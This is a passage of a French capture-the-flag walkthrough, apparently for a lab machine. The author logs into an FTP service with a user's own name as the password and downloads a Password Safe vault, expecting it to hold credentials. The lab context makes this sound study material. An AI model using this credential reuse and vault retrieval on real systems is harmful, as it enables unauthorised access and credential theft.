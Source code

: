 Par contre, je remarque qu’il est membre du groupe **Share Moderators**, donc je tente sa connexion sur le **FTP**.

```bash
ftp 10.10.11.42
```

Je tape les creds :

```bash
benjamin / benjamin
```

Et c'est carré je suis loggé !

Je liste les fichiers :

```bash
ftp> dir
```

Et je vois un fichier qui attire direct mon attention :

```
Backup.psafe3
```

Un fichier `.psafe3`, donc un fichier **Password Safe v3**… Y’a des chances qu’il contienne des creds.

Je le télécharge :

```bash
ftp 10.10.11.42
   Connected to 10.10.11.42.
   220 Microsoft FTP Service
   Name (10.10.11.42:kali): benjamin
   331 Password required
   Password: 
   230 User logged in.
   Remote system type is Windows_NT.
ftp> dir
   229 Entering Extended Passive Mode (|||54017|)
   125 Data connection already open; Transfer starting.
   10-05-24  09:13AM                  952 Backup.psafe3
   226 Transfer complete.
ftp> get Backup.psafe3
   local: Backup.psafe3 remote: Backup.psafe3
   229 Entering Extended Passive Mode (|||57645|)
   125 Data connection already open; Transfer starting.
   100% |*************************************************************************************************************************************************|   952       10.09 KiB/s    00:00 ETA
   226 Transfer complete.
   WARNING! 3 bare linefeeds received in ASCII mode.
   File may not have transferred correctly.
   952 bytes received in 00:00 (6.76 KiB/s)
```
